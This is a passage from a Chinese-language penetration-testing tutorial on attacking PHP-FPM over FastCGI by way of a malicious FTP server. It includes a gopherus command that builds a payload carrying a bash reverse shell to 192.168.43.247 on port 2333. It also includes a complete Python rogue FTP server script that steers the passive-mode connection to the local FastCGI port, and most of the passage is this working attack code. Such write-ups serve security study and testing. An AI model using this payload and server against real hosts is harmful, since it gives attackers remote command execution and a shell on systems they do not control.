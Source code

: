 经测试目标主机的 9000 端口上存在 PHP-FPM ，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到的payload只截取 `_` 后面的数据部分。

然后再攻击机上执行以下python脚本搭建一个恶意的 ftp 服务器：

```plain
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
